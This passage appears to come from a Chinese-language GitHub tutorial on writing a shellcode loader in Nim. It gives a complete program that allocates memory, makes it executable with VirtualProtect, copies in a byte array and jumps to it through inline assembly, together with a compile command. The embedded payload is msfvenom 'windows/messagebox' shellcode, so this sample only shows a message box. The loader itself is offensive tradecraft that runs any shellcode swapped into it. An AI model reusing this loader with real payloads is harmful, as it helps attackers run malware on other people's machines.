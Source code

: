 ```
""".}

proc myThead(): cint {.importc:"myThead", nodecl.}

discard myThead()
```
## 写成 shellcode 加载器
我这里使用的是AT&T / UNIX 汇编语法，所以没有写 {.passC:"-masm=intel".} 这是跟上面的例子不同的地方。  
nim c -r --cpu:i386 poc.nim
```
import winim

proc myThread(shellcode: openArray[byte]): void =
  var shellcodeAddr = GlobalAlloc(GPTR, cast[SIZE_T](len(shellcode)))
  var dwProtection: DWORD = 0
  VirtualProtect(cast[LPVOID](shellcodeAddr), cast[SIZE_T](len(shellcode)), PAGE_EXECUTE_READWRITE, &dwProtection)  
  copyMem(cast[pointer](shellcodeAddr), unsafeAddr shellcode, len(shellcode))
  
  #或者这样写
  #var dwProtection: DWORD = 0
  #VirtualProtect(unsafeAddr shellcode, cast[SIZE_T](len(shellcode)), PAGE_EXECUTE_READWRITE, &dwProtection)
  #var shellcodeAddr: pointer = unsafeAddr shellcode
  
  asm """
    mov %0, %%eax
    push %%eax
    ret
    :
    : "r" (`shellcodeAddr`)    
  """
  
when defined(windows):
    # https://github.com/nim-lang/Nim/wiki/Consts-defined-by-the-compiler
    when defined(i386):
        # ./msfvenom -p windows/messagebox -f csharp, then modified for Nim arrays
        echo "[*] Running in x86 process"
        var shellcode: array[272, byte] = [
        byte 0xd9,0xeb,0x9b,0xd9,0x74,0x24,0xf4,0x31,0xd2,0xb2,0x77,0x31,0xc9,0x64,0x8b,
        0x71,0x30,0x8b,0x76,0x0c,0x8b,0x76,0x1c,0x8b,0x46,0x08,0x8b,0x7e,0x20,0x8b,
        0x36,0x38,0x4f,0x18,0x75,0xf3,0x59,0x01,0xd1,0xff,0xe1,0x60,0x8b,0x6c,0x24,
        0x24,0x8b,0x45,0x3c,0x8b,0x54,0x28,0x78,0x01,0xea,0x8b,0x4a,0x18,0x8b,0x5a,
        0x20,0x01,0xeb,0xe3,0x34,0x49,0x8b,0x34,0x8b,0x01,0xee,0x31,0xff,0x31,0xc0,
        0xfc,0xac,0x84,0xc0,0x74,0x07,0xc1,0xcf,0x0d,0x01,0xc7,0xeb,0xf4,0x3b,0x7c,
        0x24,0x28,0x75,0xe1,0x8b,0x5a,0x24,0x01,0xeb,0x66,0x8b,0x0c,0x4b,0x8b,0x5a,
        0x1c,0x01,0xeb,0x8b,0x04,0x8b,0x01,0xe8,0x89,0x44,0x24,0x1c,0x61,0xc3,0xb2,
        0x08,0x29,0xd4,0x89,0xe5,0x89,0xc2,0x68,0x8e,0x4e,0x0e,0xec,0x52,0xe8,0x9f,
        0xff,0xff,0xff,0x89,0x45,0x04,0xbb,0x7e,0xd8,0xe2,0x73,0x87,0x1c,0x24,0x52,
        0xe8,0x8e,0xff,0xff,0xff,0x89,0x45,0x08,0x68,0x6c,0x6c,0x20,0x41,0x68,0x33,
        0x32,0x2e,0x64,0x68,0x75,0x73,0x65,0x72,0x30,0xdb,0x88,0x5c,0x24,0x0a,0x89,
        0xe6,0x56,0xff,0x55,0x04,0x89,0xc2,0x50,0xbb,0xa8,0xa2,0x4d,0xbc,0x87,0x1c,
        0x24,0x52,0xe8,0x5f,0xff,0xff,0xff,0x68,0x6f,0x78,0x58,0x20,0x68,0x61,0x67,
        0x65,0x42,0x68,0x4d,0x65,0x73,0x73,0x31,0xdb,0x88,0x5c,0x24,0x0a,0x89,0xe3,
        0x68,0x58,0x20,0x20,0x20,0x68,0x4d,0x53,0x46,0x21,0x68,0x72,0x6f,0x6d,0x20,
        0x68,0x6f,0x2c,0x20,0x66,0x68,0x48,0x65,0x6c,0x6c,0x31,0xc9,0x88,0x4c,0x24,
        0x10,0x89,0xe1,0x31,0xd2,0x52,0x53,0x51,0x52,0xff,0xd0,0x31,0xc0,0x50,0xff,
        0x55,0x08]

        # This is essentially the equivalent of 'if __name__ == '__main__' in python
        when isMainModule:
            myThread(shellcode)  
```